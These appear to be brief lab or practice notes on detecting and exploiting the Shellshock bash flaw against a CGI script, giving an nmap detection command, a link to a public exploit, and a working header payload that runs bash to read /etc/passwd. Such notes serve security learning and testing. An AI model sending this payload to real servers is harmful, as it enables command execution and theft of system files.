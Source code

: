 
- ls -al  /usr/share/nmap/script/ | grep shellshock
- /gettime.cgi
- Use the Nmap NSE script to check if the server is vulnerable to shellshock attack.
	- nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi” 192.242.220.3
	- so gettime.cgi is vulnerable
- search for exploits for the shellshock after confirming its there 
- https://github.com/opsxcq/exploit-CVE-2014-6271
- based on exploit we can change the useragent to this command and we can execute directly to server 
	- () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'

